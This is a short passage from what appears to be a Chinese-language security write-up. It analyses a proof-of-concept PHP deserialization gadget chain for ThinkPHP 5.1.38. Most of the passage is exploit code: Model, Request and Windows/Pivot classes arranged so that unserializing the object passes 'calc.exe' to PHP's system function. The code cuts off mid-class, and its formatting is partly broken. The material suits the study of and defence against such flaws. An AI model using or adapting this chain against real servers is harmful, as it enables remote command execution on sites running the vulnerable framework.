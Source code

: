 ### 反序列链构造

> 先分析一下thinkphp5.1.38的poc

```
<?php
namespace think;
abstract class Model{
    protected $append = [];
    private $data = [];
    function __construct(){
        $this->append = ["ethan"=>["calc.exe","calc"]];
        $this->data = ["ethan"=>new Request()];
    }
}
class Request
{
    protected $hook = [];
    protected $filter = "system";
    protected $config = [
        // 表单请求类型伪装变量
        'var_method'       => '_method',
        // 表单ajax伪装变量
        'var_ajax'         => '_ajax',
        // 表单pjax伪装变量
        'var_pjax'         => '_pjax',
        // PATHINFO变量名 用于兼容模式
        'var_pathinfo'     => 's',
        // 兼容PATH_INFO获取
        'pathinfo_fetch'   => ['ORIG_PATH_INFO', 'REDIRECT_PATH_INFO', 'REDIRECT_URL'],
        // 默认全局过滤方法 用逗号分隔多个
        'default_filter'   => '',
        // 域名根，如thinkphp.cn
        'url_domain_root'  => '',
        // HTTPS代理标识
        'https_agent_name' => '',
        // IP代理获取标识
        'http_agent_ip'    => 'HTTP_X_REAL_IP',
        // URL伪静态后缀
        'url_html_suffix'  => 'html',
    ];
    function __construct(){
        $this->filter = "system";
        $this->config = ["var_ajax"=>''];
        $this->hook = ["visible"=>[$this,"isAjax"]];
    }
}
namespace think\process\pipes;

use think\model\concern\Conversion;

use think\model\Pivot;

class Windows

{

private $files = [];

```
public function __construct()
{
    $this-&gt;files=[new Pivot()];
} 